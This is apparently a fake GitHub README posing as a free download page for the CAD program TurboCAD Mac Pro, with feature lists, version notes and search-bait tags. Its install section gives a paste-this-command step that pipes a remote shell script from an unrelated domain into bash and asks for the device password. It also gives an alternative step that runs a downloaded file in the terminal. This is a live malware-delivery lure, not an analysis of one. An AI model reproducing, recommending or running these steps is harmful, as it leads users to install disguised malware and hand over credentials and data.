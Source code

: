 # TurboCAD Mac – Pro CAD Software for macOS

![TurboCAD Mac Pro Blending](https://architosh.com/wp-content/uploads/2024/08/TCMac_Pro_Blending.jpg)

## 📥 Download TurboCAD for Mac – Pro Version

[![⬇️ Download TurboCAD Mac](https://img.shields.io/badge/Download-TurboCAD%20Mac-blue?style=for-the-badge&logo=apple)](https://turbocad-pro-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is TurboCAD Mac?

**TurboCAD Mac** is a powerful, professional-grade CAD software tailored specifically for **macOS** users. Ideal for architects, engineers, product designers, and 2D/3D drafters, it offers a robust feature set that allows for **precision drawing**, **3D modeling**, **rendering**, and **mechanical design** in a native Mac environment.

TurboCAD Mac comes in several versions — including **Designer**, **Deluxe**, and **Pro** — to suit beginners through to experienced professionals. The **Pro version** supports **3D surface and ACIS solid modeling**, **photorealistic rendering**, and **BIM-like tools**, while the **Designer edition** focuses on intuitive 2D drafting tools.

With full support for the **latest macOS versions**, including **Apple Silicon (M1/M2/M3)** chips, TurboCAD Mac is a go-to solution for serious CAD work on Mac computers.

This software is used worldwide for **architectural floor plans**, **engineering schematics**, **mechanical parts**, **furniture design**, and much more. If you’re looking for an alternative to AutoCAD on Mac — TurboCAD is your answer.

---

![TurboCAD Mac Screenshot](https://www.fortsoft.com.ua/upload/resize_cache/iblock/d32/700_700_1/imsi_design_turbocad_mac_designer_fortsoft_scr_2.jpg)

---

## ⚙️ Key Features

- 🖊️ **2D Drafting & 3D Modeling** – Draw in 2D, build in 3D.
- 🧱 **Solid & Surface Modeling** – Create professional-grade designs using ACIS solids.
- 💡 **Photorealistic Rendering** – Produce high-quality visuals with LightWorks rendering.
- 💾 **File Compatibility** – Supports DWG, DXF, SKP, 3DS, STL, and more.
- 🧠 **Intuitive UI** – Designed specifically for macOS with a clean, accessible interface.
- 💻 **macOS Native** – Fully optimized for Ventura, Monterey, Big Sur, and Apple M1/M2 chips.
- 🔄 **2D to 3D Tools** – Convert sketches and plans into working 3D models easily.
- 🌐 **Multilingual Support** – Available in English, Deutsch, and more.

---

## ✅ Available Versions

- **TurboCAD Mac Designer 2D v12** – Ideal for beginners and basic drafting.
- **TurboCAD Mac Deluxe** – Adds 3D modeling, photorealistic rendering.
- **TurboCAD Mac Pro v12** – Advanced modeling tools, lighting control, and surface blending.

---

## 📦 System Requirements

- macOS 10.15 or later (Ventura, Monterey, Big Sur supported)
- Apple Silicon (M1/M2/M3) and Intel-based Macs
- Minimum 4 GB RAM (8+ GB recommended)
- Internet connection for activation

---

## 🔍 Tags

turbocad mac, turbo cad mac, turbocad pro mac, turbocad mac download, turbocad mac free download, turbocad 2d mac, turbocad mac m1, turbo cad mac pro, turbocad deluxe for mac, turbocad mac designer, turbocad mac designer 2d v12, turbocad mac deutsch, turbocad mac pro v12, turbocad v12, turbocad pro mac free download, turbocad pro mac download
